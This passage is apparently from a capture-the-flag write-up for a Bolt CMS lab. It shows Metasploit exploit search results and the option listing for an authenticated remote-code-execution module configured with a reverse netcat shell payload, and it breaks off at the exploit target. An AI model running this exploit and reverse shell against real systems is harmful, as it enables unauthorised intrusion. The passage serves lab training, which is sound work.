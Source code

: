 ```sh
   41  exploit/windows/local/bypassuac_comhijack         1900-01-01       excellent  Yes    Windows Escalate UAC Protection Bypass (Via COM Handler Hijack)
   42  exploit/windows/nuuo/nuuo_cms_fu                  2018-10-11       manual     No     Nuuo Central Management Server Authenticated Arbitrary File Upload
   43  exploit/windows/nuuo/nuuo_cms_sqli                2018-10-11       normal     No     Nuuo Central Management Authenticated SQL Server SQLi
   44  exploit/windows/smtp/njstar_smtp_bof              2011-10-31       normal     Yes    NJStar Communicator 3.00 MiniSMTP Buffer Overflow


Interact with a module by name or index, for example use 44 or use exploit/windows/smtp/njstar_smtp_bof

msf5 > 
```

by looking at the results returned and having found the vulnerability on **Exploit-DB** we get the answer to the room question.
Let's try to exploit that in the next step.



[Task 7] Set the LHOST, LPORT, RHOST, USERNAME, PASSWORD in msfconsole before running the exploit
-------------------------------------------------------------------------------------------------

Let's configure the options for our exploit, by doing **show options**

```sh
[*] Using configured payload cmd/unix/reverse_netcat
msf5 exploit(unix/webapp/bolt_authenticated_rce) > show options

Module options (exploit/unix/webapp/bolt_authenticated_rce):

   Name                 Current Setting        Required  Description
   ----                 ---------------        --------  -----------
   FILE_TRAVERSAL_PATH  ../../../public/files  yes       Traversal path from "/files" on the web server to "/root" on the server
   PASSWORD                                    yes       Password to authenticate with
   Proxies                                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT                8***                   yes       The target port (TCP)
   SRVHOST              0.0.0.0                yes       The local host or network interface to listen on. This must be an address on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT              8080                   yes       The local port to listen on.
   SSL                  false                  no        Negotiate SSL/TLS for outgoing connections
   SSLCert                                     no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI            /                      yes       Base path to Bolt CMS
   URIPATH                                     no        The URI to use for this exploit (default is random)
   USERNAME                                    yes       Username to authenticate with
   VHOST                                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

```